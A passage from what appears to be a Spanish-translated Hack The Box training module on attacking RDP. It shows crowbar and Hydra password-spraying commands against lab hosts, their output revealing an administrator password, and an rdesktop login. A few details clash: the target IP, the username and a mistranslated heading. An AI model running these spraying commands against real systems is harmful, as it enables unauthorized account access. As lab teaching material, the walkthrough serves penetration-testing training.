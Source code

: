 ### **Crowbar - Pulverización de contraseñas RDP**

Atacando a RDP

```
xnoxos@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP

```

También podemos usar`Hydra`Para realizar un ataque con contraseña RDP.

### **Hydra - RDP Pressing Spraying**

Atacando a RDP

```
xnoxos@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdpHydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56

```

Podemos RDP en el sistema de destino utilizando el`rdesktop`cliente o`xfreerdp`Cliente con credenciales válidas.

### **RDP Iniciar sesión**

Atacando a RDP

```
xnoxos@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
     sha256: f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57
```